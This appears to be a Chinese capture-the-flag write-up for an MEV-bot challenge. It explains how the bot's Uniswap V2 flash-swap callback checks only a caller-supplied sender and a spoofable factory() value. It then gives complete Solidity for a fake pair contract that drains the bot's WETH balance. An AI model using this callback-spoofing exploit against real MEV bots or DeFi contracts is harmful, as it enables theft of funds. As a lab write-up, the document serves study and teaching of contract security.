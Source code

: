 # 链上猎手

阅读源码，可以发现题目大致如下：

- 会部署一种 token，两个 Uniswap V2 factory，以及该 token 和 WETH 的 pair。
- 有一个 MEV Bot，三道题会有不同的版本。
- MEV Bot 在每次出块后，会遍历 Uniswap 中所有 pair。假如两个 Uniswap 中都存在 WETH 到某 token 的 pair，则试图从这两个 pair 中套利。
- MEV Bot 在初始时会进行一次套利测试。
- 目标是清空 MEV Bot 的余额。
- 三道题目初始环境都是固定的，于是所有合约的地址都相同。

## The Maximal Extractable Value

阅读 `bot1.sol`，发现该函数没有限制发送者：

```solidity
function uniswapV2Call(address sender, uint, uint, bytes calldata data) external {
    require(IUniswapV2Pair(msg.sender).factory() == FACTORY1 || IUniswapV2Pair(msg.sender).factory() == FACTORY2);
    require(sender == address(this));
    (IUniswapV2Pair pair1, IUniswapV2Pair pair2, uint amount1, uint amount2, bool dir) = abi.decode(data, (IUniswapV2Pair, IUniswapV2Pair, uint, uint, bool));
    require(WETH.transfer(address(pair1), amount1));
    pair1.swap(dir ? amount2 : 0, dir ? 0 : amount2, address(pair2), '');
}
```

第二个 require 需要的东西在参数里面，可以直接绕过。

对于第一个 require，可以构造一个假的 Uniswap pair，使得 `factory()` 总是返回 `FACTORY1`。用它来调用该函数，就能让 Bot 往任意地方转账了。

```solidity
pragma solidity =0.8.10;

interface Bot {
    function uniswapV2Call(address sender, uint, uint, bytes calldata data) external;
}

interface IUniswapV2Pair {
    function swap(uint amount0Out, uint amount1Out, address to, bytes calldata data) external;
    function factory() external view returns (address);
}

interface IERC20 {
    function balanceOf(address account) external view returns (uint256);
    function transfer(address recipient, uint256 amount) external returns (bool);
}

interface IWETH is IERC20 {
    function withdraw(uint256) external;
    function deposit() external payable;
}

contract FakePair {
    function factory() external pure returns (address) {
        return 0x164e31a6Ac83D5EDaE2139Add30099485D15d138;
    }
    function solve(Bot bot) external {
        uint balance = IERC20(0x9d9901f3b034427dd0e6Cf1c70aE5E4d94Ed19e7).balanceOf(address(bot));
        bot.uniswapV2Call(address(bot), 0, 0, abi.encode(address(this), address(0), balance, uint(0), true));
    }
    function swap(uint amount0Out, uint amount1Out, address to, bytes calldata data) external {
    }
}
```